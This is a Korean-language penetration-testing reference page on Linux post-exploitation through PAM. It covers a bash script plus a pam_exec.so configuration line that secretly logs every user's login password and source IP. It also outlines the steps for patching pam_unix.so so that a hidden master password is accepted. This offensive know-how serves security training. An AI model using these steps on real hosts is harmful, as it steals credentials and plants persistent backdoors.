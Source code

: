 # 리눅스 사후 침투

{% hint style="success" %}
AWS 해킹 학습 및 실습:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
GCP 해킹 학습 및 실습: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks 지원</summary>

* [**구독 요금제**](https://github.com/sponsors/carlospolop)를 확인하세요!
* 💬 [**디스코드 그룹**](https://discord.gg/hRep4RUj7f) 또는 [**텔레그램 그룹**](https://t.me/peass)에 **참여**하거나 **트위터** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**를 팔로우**하세요.
* [**HackTricks**](https://github.com/carlospolop/hacktricks) 및 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) 깃허브 저장소에 PR을 제출하여 해킹 요령을 공유하세요.

</details>
{% endhint %}

## PAM을 사용하여 로그온 암호 스니핑

각 사용자가 로그인할 때 사용하는 암호를 기록하기 위해 PAM 모듈을 구성해 봅시다. PAM이 무엇인지 모르는 경우:

{% content-ref url="pam-pluggable-authentication-modules.md" %}
[pam-pluggable-authentication-modules.md](pam-pluggable-authentication-modules.md)
{% endcontent-ref %}

**자세한 내용은 [원본 게시물](https://embracethered.com/blog/posts/2022/post-exploit-pam-ssh-password-grabbing/)을 확인하세요**. 이것은 간략한 요약입니다:

**기술 개요:**
Pluggable Authentication Modules (PAM)은 Unix 기반 시스템에서 인증을 관리하는 유연성을 제공합니다. 로그인 프로세스를 사용자 정의하여 보안을 강화할 수 있지만 오용될 경우 위험을 초래할 수도 있습니다. 이 요약은 PAM을 사용하여 로그인 자격 증명을 캡처하는 기술과 완화 전략을 개요합니다.

**자격 증명 캡처:**
- `toomanysecrets.sh`라는 bash 스크립트가 작성되어 로그인 시도를 기록하고, 날짜, 사용자 이름(`$PAM_USER`), 암호 (stdin을 통해), 원격 호스트 IP(`$PAM_RHOST`)를 `/var/log/toomanysecrets.log`에 기록합니다.
- 스크립트를 실행 가능하게 만들고, `pam_exec.so` 모듈을 사용하여 PAM 구성(`common-auth`)에 조용히 실행되도록하고 스크립트에 인증 토큰을 노출하는 옵션을 추가합니다.
- 이 접근 방식은 침해당한 Linux 호스트가 암호를 은밀하게 기록하는 방법을 보여줍니다.
```bash
#!/bin/sh
echo " $(date) $PAM_USER, $(cat -), From: $PAM_RHOST" >> /var/log/toomanysecrets.log
sudo touch /var/log/toomanysecrets.sh
sudo chmod 770 /var/log/toomanysecrets.sh
sudo nano /etc/pam.d/common-auth
# Add: auth optional pam_exec.so quiet expose_authtok /usr/local/bin/toomanysecrets.sh
sudo chmod 700 /usr/local/bin/toomanysecrets.sh
```
### PAM에 백도어 설치

**자세한 내용은 [원본 게시물](https://infosecwriteups.com/creating-a-backdoor-in-pam-in-5-line-of-code-e23e99579cd9)**을 확인하십시오. 이것은 간략한 요약입니다:

Pluggable Authentication Module (PAM)은 Linux에서 사용되는 시스템으로 사용자 인증에 사용됩니다. **사용자 이름**, **암호**, **서비스** 세 가지 주요 개념에 작동합니다. 각 서비스의 구성 파일은 `/etc/pam.d/` 디렉토리에 있으며, 공유 라이브러리가 인증을 처리합니다.

**목표**: PAM을 수정하여 특정 암호로 인증을 허용하고 실제 사용자 암호를 우회합니다. 이는 주로 대부분의 서비스에서 암호 확인을 위해 사용되는 `common-auth` 파일에서 사용되는 `pam_unix.so` 공유 라이브러리에 초점을 맞춥니다.

### `pam_unix.so` 수정 단계:

1. **`common-auth` 파일에서 인증 지시문 찾기**:
- 사용자의 암호를 확인하는 책임이 있는 줄이 `pam_unix.so`를 호출합니다.
2. **소스 코드 수정**:
- `pam_unix_auth.c` 소스 파일에 조건문을 추가하여 미리 정의된 암호를 사용하면 액세스를 허용하고, 그렇지 않으면 일반적인 인증 프로세스를 진행합니다.
3. **수정된 `pam_unix.so` 라이브러리 다시 컴파일 및 교체**:
- 적절한 디렉토리에 수정된 `pam_unix.so` 라이브러리를 다시 컴파일하고 교체합니다.
4. **테스트**:
- 미리 정의된 암호로 다양한 서비스(로그인, ssh, sudo, su, 스크린 세이버)에 액세스가 허용되지만, 일반적인 인증 프로세스는 영향을 받지 않습니다.

{% hint style="info" %}
[https://github.com/zephrax/linux-pam-backdoor](https://github.com/zephrax/linux-pam-backdoor)를 사용하여 이 프로세스를 자동화할 수 있습니다.
{% endhint %}
